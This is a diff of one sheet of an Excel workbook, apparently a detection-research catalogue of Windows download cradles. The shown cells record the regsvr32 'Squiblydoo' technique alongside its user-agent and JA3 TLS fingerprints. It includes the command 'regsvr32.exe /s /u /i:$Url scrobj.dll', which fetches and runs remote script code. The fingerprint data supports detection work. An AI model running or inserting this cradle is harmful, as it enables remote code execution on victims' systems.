

Before and after one commit to mgreen27/mgreen27.github.io, an Excel workbook: other/DownloadCradle/DownloadCradle.xlsx, sheet regsvr32, drawn as a sheet; only a part is shown; long unchanged cells end in …; values as stored, in another font and other column widths than the file's, no borders; addresses are those after the commit; ↵ is a line break in a cell; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/other/DownloadCradle/DownloadCradle.xlsx (sheet regsvr32)
+++ b/other/DownloadCradle/DownloadCradle.xlsx (sheet regsvr32)
+column B, rows 1-6: Windows 10 Office 2016 Powershell 5.1.16299.248 | Squiglyboo - regsvr32.exe as a download cradle (not specifically powershell) ↵ regsvr32.exe /s /u /i:$Url scrobj.dll | GET: Mozilla/\* (compatible; MSIE \*; Windows NT \*; Win64; x64; Trident/\*; .NET\*; .NET CLR \*) | JA3_footprint: 771,49196-49195-49200-49199-49188-49187-49192-49191-49162-49161-49172-49171-157-156-61-60-53-47-10,0-5-10-11-13-35-23-65281,29-23-24,0 ↵ JA3_hash: a0e9f5d64349fb13191bc781f81f42e1 | regsvr32.exe | Child: regsvr32.exe
-D2: (empty)
+D2: Squiglyboo - regsvr32.exe as a download cradle (not specifically powershell) ↵ regsvr32.exe /s /u /i:$Url scrobj.dll
```
Also changed, not shown: sheet Certutil, sheet MsXml COM, sheet WebClient, sheet WinHttp COM, sheet Excel COM, sheet Word COM, 12 more sheets, 1 other file.
